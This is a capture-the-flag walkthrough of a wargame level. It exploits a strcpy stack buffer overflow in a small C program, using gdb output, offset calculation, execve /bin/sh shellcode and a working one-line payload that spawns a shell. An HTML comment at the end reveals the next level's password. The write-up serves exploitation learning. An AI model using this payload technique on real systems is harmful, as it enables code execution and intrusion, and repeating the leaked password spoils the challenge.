 ## Level 5:

```c
 1 #include <stdio.h>
 2 #include <string.h>
 3 
 4 int main(int argc, char **argv) {
 5 
 6     char buf[128];
 7 
 8     if(argc < 2) return 1;
 9 
10     strcpy(buf, argv[1]);
11 
12     printf("%s\n", buf);
13 
14     return 0;
15 }
```

With a buffer of set size and a strcpy this will be another overflow problem. 

With a little bit of testing we can see that we can overwrite **EIP**. What we would like to do is set it to point to our code. Firstly we need to create a shell code which we will insert into the buffer and set **EIP** to be the address of the first byte.

Also I set a break before the **strcpy** function to see the buffer before jump.

```console
(gdb) disass main
Dump of assembler code for function main:
   0x080483b4 <+0>:	push   %ebp
   0x080483b5 <+1>:	mov    %esp,%ebp
   0x080483b7 <+3>:	sub    $0xa8,%esp
   0x080483bd <+9>:	and    $0xfffffff0,%esp
   0x080483c0 <+12>:	mov    $0x0,%eax
   0x080483c5 <+17>:	sub    %eax,%esp
   0x080483c7 <+19>:	cmpl   $0x1,0x8(%ebp)
   0x080483cb <+23>:	jg     0x80483d9 <main+37>
   0x080483cd <+25>:	movl   $0x1,-0x8c(%ebp)
   0x080483d7 <+35>:	jmp    0x8048413 <main+95>
   0x080483d9 <+37>:	mov    0xc(%ebp),%eax
   0x080483dc <+40>:	add    $0x4,%eax
   0x080483df <+43>:	mov    (%eax),%eax
   0x080483e1 <+45>:	mov    %eax,0x4(%esp)
   0x080483e5 <+49>:	lea    -0x88(%ebp),%eax
   0x080483eb <+55>:	mov    %eax,(%esp)
   0x080483ee <+58>:	call   0x80482d4 <strcpy@plt>
   0x080483f3 <+63>:	lea    -0x88(%ebp),%eax
   0x080483f9 <+69>:	mov    %eax,0x4(%esp)
   0x080483fd <+73>:	movl   $0x8048524,(%esp)
   0x08048404 <+80>:	call   0x80482b4 <printf@plt>
   0x08048409 <+85>:	movl   $0x0,-0x8c(%ebp)
   0x08048413 <+95>:	mov    -0x8c(%ebp),%eax
   0x08048419 <+101>:	leave  
   0x0804841a <+102>:	ret    
End of assembler dump.
(gdb) b *0x080483ee
Breakpoint 1 at 0x80483ee
(gdb) x/4wx $ebp
0xbffffbc8:	0x00000000	0xb7e26286	0x00000002	0xbffffc64
(gdb) x/s *0xbffffc64
0xbffffd8d:	"/levels/level05"
(gdb) x/s *0xbffffc68
0xbffffd9d:	'A' <repeats 144 times>
(gdb) print/x 0xbffffd9d + 0x73
$1 = 0xbffffe10
```

We can see the pointer to the argv[1] is **0xbffffd9d**, now with a bit of trying it is easy to find that **EIP** is from 140-144 bytes from this poitner. 

```console
(gdb) r $(python -c 'print "A"*140+"BBBB"')
Starting program: /levels/level05 $(python -c 'print "A"*140+"BBBB"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

So we need to generate the payload to be 144 bytes long, include the shell code and the last 4 bytes must point to the start of the shell code.

Example shell code:
```c
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```
Reference: http://shell-storm.org/shellcode/files/shellcode-827.html

This shell code is 23 bytes long so we need to point to 0xbffffe12 (0xbffffd9d + 0x75(117 (140-23)))

Further reading: [shell coding by Steve Hanna](https://www.vividmachines.com/shellcode/shellcode.html) goes into details of making shell codes rather then using tools such as metasploit to generate the payload.

After all this we can finally generate the final payload and execute it:

```console
level5@io:/levels$ ./level05 $(python -c 'print "A"*117+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x12\xfe\xff\xbf"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�Ph//shh/bin��PS��
                               ���
sh-4.3$ 
```

<!-- Level 6 password ==> fQ8W8YlSBJBWKV2R -->
